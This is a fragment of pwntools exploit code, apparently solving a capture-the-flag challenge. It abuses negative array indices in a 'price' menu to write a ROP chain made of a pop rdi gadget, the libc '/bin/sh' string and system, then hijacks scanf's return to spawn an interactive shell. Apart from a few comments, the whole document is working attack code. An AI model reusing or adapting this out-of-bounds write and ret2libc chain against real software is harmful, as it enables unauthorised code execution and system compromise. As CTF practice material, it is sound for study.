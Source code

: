 ```
# sla(b'idx: ',b'-2')
# sla(b'Enter price: ',f'{prsi}'.encode())

# sla(b'> ',b'2')
# sla(b'idx: ',b'-1')
# sla(b'Enter price: ',f'{0}'.encode())

# sla(b'> ',b'2')
# sla(b'idx: ',b'0')
# sla(b'Enter price: ',f'{one}'.encode())

#scanf ret controlling
# sla(b'> ',b'2')
# sla(b'idx: ',b'-5')
# sla(b'Enter price: ',f'{prcx_rbx}'.encode())

#get_shell = p64(ret) + p64(prdi) + p64(next(libc.seacrh("/bin/sh\0"))) + p64(libc.sym.system)
binsh = next(libc.search("/bin/sh\0"))
# sla(b'> ',b'2')
# sla(b'idx: ',b'-2') # #idx = (adr[idx=0] - adr[adx=n])/8
# sla(b'Enter price: ',f'{ret}'.encode())

sla(b'> ',b'2')
sla(b'idx: ',b'-2')
sla(b'Enter price: ',f'{prdi}'.encode())

sla(b'> ',b'2')
sla(b'idx: ',b'-1')
sla(b'Enter price: ',f'{binsh}'.encode())

sla(b'> ',b'2')
sla(b'idx: ',b'0')
sla(b'Enter price: ',f'{libc.sym.system}'.encode())

#scanf ret controlling
sla(b'> ',b'2')
sla(b'idx: ',b'-5')
sla(b'Enter price: ',f'{prcx_rbx}'.encode())

p.interactive()
```

